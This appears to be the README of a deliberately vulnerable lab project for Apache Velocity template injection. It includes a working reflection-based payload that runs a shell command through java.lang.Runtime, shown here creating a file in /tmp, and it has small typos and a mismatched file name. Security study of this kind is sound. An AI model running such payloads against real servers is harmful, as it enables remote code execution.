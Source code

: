 # vuln-velocity #

What is Apache Velocity?
Velocity is a Java-based template engine. It permits anyone to use a simple yet powerful template language to reference objects defined in Java code.

Apache velocity can be used or configured wrong. Attacker can execute arbitrary code using apache velocity.

## vuln velocity project: ##

1. vuln-velocity-wicket
2. vuln-velocity-liferay

## vuln-velocity-wicket ##

You can start vulnerable wicket project on cli:

```
cd cd vuln-velocity-wicket
mvn clean install 
java -jar target/dependency/jetty-runner.jar target/*.war
```

1. Visit local URL http://127.0.0.1:8080/
2. Paste velocity exploit code into wicket veloctiy editor.
3. Press update button.
4. Velocity expoit creates a new file velocity-poc.txt in /tmp

```
#set($start = "")
#set($classLoaderMethod =$start.getClass().getClass().getDeclaredMethod("getClassLoader", null))
$classLoaderMethod.setAccessible(true)
#set($appClassLoader=$classLoaderMethod.invoke(${persons.get(0).getClass()},null))


#set($runtTimeClass = $appClassLoader.loadClass("java.lang.Runtime"))
#set($runtimedMethod = $runtTimeClass.getDeclaredMethod("getRuntime", null))
#set($runtimedMethodExecuted = $runtimedMethod.invoke($runtTimeClass, null))
#set($stringClass = $appClassLoader.loadClass("java.lang.String"))
$runtimedMethodExecuted.getClass().getDeclaredMethod("exec", $stringClass).invoke($runtimedMethodExecuted, "touch /tmp/velocity-rce-poc.txt")
```

## vuln-velocity-lifery ##

Coming soon
